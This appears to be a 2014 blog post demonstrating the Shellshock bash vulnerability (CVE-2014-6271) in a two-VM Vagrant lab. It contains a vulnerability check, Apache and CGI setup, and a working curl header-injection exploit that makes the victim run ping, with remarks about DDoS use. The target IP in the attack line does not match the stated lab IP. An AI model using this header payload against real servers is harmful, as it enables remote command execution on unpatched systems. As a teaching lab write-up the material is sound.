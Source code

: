 ```yaml
---
author: andrei
comments: true
date: 2014-09-25 22:15:29+00:00
layout: post
slug: test-shellshock-vulnerability
title: Shellshock proof of concept
excerpt: "The vulnerability that was found on linux/mac systems affecting Bash: ShellShock. It looks like this is bigger than Heartbleed! It's been out there since 1993 and it will be very hard to get rid of it all over. In this post I will present how to check if your server is vulnerable. Also i am creating  a small setup to check what the bug can do, so buckle up!"
categories:
- hack
- linux
---
```

{% include _toc.html %}

The vulnerability that was found on linux/mac systems affecting Bash: ShellShock. It looks like this is bigger than Heartbleed! It's been out there since 1993 and it will be very hard to get rid of it all over. In this post I will present how to check if your server is vulnerable. Also i am creating  a small setup to check what the bug can do, so buckle up!


<div style="text-align:center" markdown="1">
![shellshock](/images/shellshock-300x168.jpg)
</div>




**Shellshock** is newly discovered vulnerability in software that's in computer systems we use everyday. It's kind of like Heartbleed, the Open/SSL bug that scared everyone senseless a few months ago and remains unpatched on thousands of systems. According to some experts, however, Shellshock could be way worse, and it's been around for decades. Shellshock affect bash, if exploited successfully an attacker could take control over the an unpatched linux system.

##How does it work?

The short story : Linux, like most of the operating systems use environment variable. Generally you can assign values to a environment variable, but also function definitions. The problem is that after defining the function, Bash continues to process shell commands resulting in a code injection attack.

##How to check if a server is vulnerable?

{% highlight bash %}
env x='() { :;}; echo vulnerable' bash -c /bin/true
{% endhighlight %}

Run the above command in a console. If you get "**vulnerable**" as output, that means that the server is exploitable.If the server is patched the following error message will be shown:
**bash: warning: x: ignoring function definition attempt**
** bash: error importing function definition for `x'**

##Set up the lab
	
  * provision 2 virtual machines


I have set up 2 Centos 5 VMs for this using VirtualBox and Vagrant. Below you can see my Vagrant config file:
{% highlight bash %}
vi Vagrantfile
VAGRANTFILE_API_VERSION = "2"
Vagrant.configure(VAGRANTFILE_API_VERSION) do |config|
config.vm.define "vm1" do |vm1|
vm1.vm.box = "centos5"
vm1.vm.hostname = "vm1"
vm1.vm.network "public_network"
end
config.vm.define "vm2" do |vm2|
vm2.vm.box = "centos5"
vm2.vm.hostname = "vm2"
vm2.vm.network "public_network"
end
config.vm.provider "virtualbox" do |vb|
vb.customize ["modifyvm", :id, "--memory", "512"]
end
end

vagrant up

vagrant ssh vm1
{% endhighlight %}

After running "vagrant up" you should have 2 VMs running with the following ips: vm1 192.168.1.149, vm2 192.168.1.150
The first VM will be the vulnerable server, and will be attacked from Vm2

	
  * Install apache and php-cgi on VM1


{% highlight bash %}

VM1# yum -y install httpd php-cgi

{% endhighlight %}

	
  * Configure apache on VM1. Add the following virtual host definition in your config file and start up apache


{% highlight bash %}

VM1# vi /etc/httpd/conf/httpd.conf

.........
ServerName VM1
DocumentRoot /var/www/html
ScriptAlias /cgi-bin/ "/var/www/cgi-bin/"
<Directory "/var/www/html">
Options +Indexes FollowSymLinks +ExecCGI
AddHandler php5-fastcgi .php
Action php5-fastcgi /cgi-bin/php.fastcgi
AllowOverride All
Order allow,deny
Allow from All
;
;

VM1# /etc/init.d/httpd start

{% endhighlight %}

After starting up Apache, make sure your server is not patched, so it has a vulnerable version of Bash. You can find a list with the vulnerable versions here: [CVE-2014-6271](http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2014-6271) . Also you can try running the command posted at the beginning of this post.
Make sure you have the following folder created on VM1: /var/www/cgi-bin/ and set it's permissions to 755. Also create a small bash script named test.cgi and set permissions to it.

{% highlight bash %}

VM1# vi /var/www/cgi-bin/test.cgi

...

#!/bin/bash
echo
echo "test"

...

VM1# chmod 755 /var/www/cgi-bin/ -R

{% endhighlight %}



	
  * Start the attack from VM2


{% highlight bash %}

vagrant ssh vm2

VM2# curl --header "X: () { :; }; /bin/ping www.google.com" 192.168.1.159/cgi-bin/test.cgi

{% endhighlight %}

You can now check all icmp packets on your VM1. You will see lots of ping requests going out of VM1 to Google. Imagine this type of attack running on a larger scale, it would be a very efficient of DDOS attack.

{% highlight bash %}

VM1# tcpdump -i eth0 host 192.168.1.149 and icmp

{% endhighlight %}


##So what did we do ?


We send a simple /GET request to a apache cgi server and we have set a header value to a function definition and a bash command.  Of course you can run the attack  from a regular browser using a proxy (burp, fiddler,..) not necessarily from the command line. You just need to set a header to that value and the result will be the same.
As it turns out DHCP servers are also vulnerable to this bug. I'm not going to present that , but you can see how simple that can be done here: [https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/](https://www.trustedsec.com/september-2014/shellshock-dhcp-rce-proof-concept/)







